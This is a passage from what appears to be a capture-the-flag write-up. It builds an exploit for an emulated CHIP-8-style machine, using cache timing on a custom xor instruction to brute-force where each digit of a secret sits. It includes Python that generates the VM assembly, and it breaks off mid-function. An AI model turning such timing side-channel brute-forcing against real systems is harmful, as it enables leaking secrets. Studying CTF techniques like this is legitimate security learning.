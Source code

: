 ```python
```

Now we can begin to write our exploit

#### Exploit

First we want to call the xor function with `I` set to `"0123456789"` then bruteforce for each char, the index where it appears.

To do that we call a simple `xor` instruction with two value `idx` and `check` then call the main xor function and check if it was faster.
If so that mean there is a char `check` at `idx`.

Once implemented it looks like that

```python
def  set_addr_to_0123456789(addr):
	asm = ""
  
	# save reg
	asm += _mov(I=True, NNN=stack_base + 0x30)
	asm += _reg_dump(X=0xF)
  
	for nb in  range(10):
		asm += _mov(X=nb, NN=nb)
  
	asm += _mov(I=True, NNN=addr)
	asm += _reg_dump(X=0x9)
  
	# load reg
	asm += _mov(I=True, NNN=stack_base + 0x30)
	asm += _reg_load(X=0xF)
  
	return asm


def  bf_char(idx, addr, pc):
	asm = ""
  
	# save reg
	asm += _mov(I=True, NNN=stack_base + 0x40)
	asm += _reg_dump(X=0xF)
  
	# V0xD will be our idx
	asm += _mov(X=0xd, Y=idx)
  
	# set V0xe to -1
	asm += _mov(X=0xe, NN=0xff)
  
	# label _loop
	_loop = 0x0200 + pc + len(asm) // 2
  
	# incr V0xe
	asm += _add(X=0xe, NN=1)
  
	# reset cache
	asm += _empty_cache()
	# fill addresse with "0123456789"
	asm += set_addr_to_0123456789(addr=stack_base + 0x50)
	# I will point to "0123456789"
	asm += _mov(I=True, NNN=stack_base + 0x50)
  
	# do or xor with V0xd idx and V0xe our check
	asm += _mov(X=0x0, Y=0xd)
	asm += _mov(X=0x2, Y=0xe)
```